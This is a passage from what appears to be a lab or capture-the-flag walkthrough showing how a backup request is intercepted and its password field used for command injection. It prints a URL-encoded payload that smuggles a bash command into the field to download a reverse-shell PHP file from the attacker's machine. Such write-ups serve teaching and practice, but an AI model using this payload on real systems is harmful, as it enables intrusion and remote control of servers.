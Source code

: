 only then click on create backup, in order to capture the request
![Pasted image 20250527203245](MediaFiles/Pasted%20image%2020250527203245.png)

now we successfully captured the request, on the right side you should see the page loading infinetely (because we are intercepting the request)
![Pasted image 20250527203356](MediaFiles/Pasted%20image%2020250527203356.png)
you can see our input `sth` on the left side, on the password variable.

After trial and error, and lots of searching, i concluded to this payload, so paste it in the password field  instead of `sth`:
```shell
%0Abash%09-c%09"wget%0910.10.14.184:8000/rev_shell.php"%0A
```
and now our new request should look like this
![Pasted image 20250527193603](MediaFiles/Pasted%20image%2020250527193603.png)
